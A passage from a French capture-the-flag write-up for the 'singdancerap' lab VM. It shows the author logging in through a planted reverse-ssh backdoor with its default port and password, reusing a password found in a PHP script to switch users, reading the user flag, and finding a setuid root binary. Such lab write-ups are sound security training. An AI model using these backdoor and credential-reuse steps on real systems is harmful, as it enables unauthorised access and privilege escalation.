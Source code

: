 Toutefois impossible de se connecter ensuite, l'utilisateur devant être non autorisé sur le service.

C'est donc reparti avec ce bon vieux `reverse-sshx86` (oui la VM est en 32bits) qui écoute par défaut sur le port 31337 et accepte n'importe quel nom d'utilisateur avec le mot de passe `letmeinbrudipls`.

```console
ssh yolo@192.168.56.102 -p 31337
The authenticity of host '[192.168.56.102]:31337 ([192.168.56.102]:31337)' can't be established.
RSA key fingerprint is SHA256:JSuvLeDoi+aAH8PlIlrL5yW8X/p/LVn+7UAjNDExovo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.56.102]:31337' (RSA) to the list of known hosts.
yolo@192.168.56.102's password: 
www-data@singdancerap:/var/www/he110wor1d/littlesecrets$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Le dossier de l'utilisateur est bien protégé:

```
drwxr-x--- 4 he110wor1d he110wor1d 4096 Mar  3 04:14 he110wor1d/
```

Après avoir cherché des fichiers intéressants sans succès je suis parvenu à me connecter au compte avec le mot de passe du script PHP:

```console
www-data@singdancerap:/tmp$ su he110wor1d
Password: 
he110wor1d@singdancerap:/tmp$ cd
he110wor1d@singdancerap:~$ id
uid=1001(he110wor1d) gid=1001(he110wor1d) groups=1001(he110wor1d)
he110wor1d@singdancerap:~$ ls -alh
total 32K
drwxr-x--- 4 he110wor1d he110wor1d 4.0K Mar  3 04:14 .
drwxr-xr-x 3 root       root       4.0K Mar  1 01:10 ..
lrwxrwxrwx 1 he110wor1d he110wor1d    9 Feb 28 06:49 .bash_history -> /dev/null
-rw-r--r-- 1 he110wor1d he110wor1d  220 Apr 17  2019 .bash_logout
-rw-r--r-- 1 he110wor1d he110wor1d 3.5K Apr 17  2019 .bashrc
drwxr-xr-x 3 he110wor1d he110wor1d 4.0K Mar  1 07:23 .local
-rw-r--r-- 1 he110wor1d he110wor1d  807 Apr 17  2019 .profile
drwxr-x--- 2 he110wor1d he110wor1d 4.0K Mar  3 04:21 thekey2root
-rw------- 1 he110wor1d he110wor1d  109 Feb 28 06:59 user.txt
he110wor1d@singdancerap:~$ cat user.txt 
#SQL injection can not only retrieve data but also forge it.

User flag:107883ee-f5e4-11ef-8542-005056207011
```

### Rap God

Dans ce dossier `thekey2root` on trouve un exécutable setuid root:

```console
he110wor1d@singdancerap:~$ ls -alh thekey2root/
total 24K
drwxr-x--- 2 he110wor1d he110wor1d 4.0K Mar  3 04:21 .
drwxr-x--- 4 he110wor1d he110wor1d 4.0K Mar  3 04:14 ..
-rwsr-sr-x 1 root       root        16K Mar  1 00:23 thekey2root
```
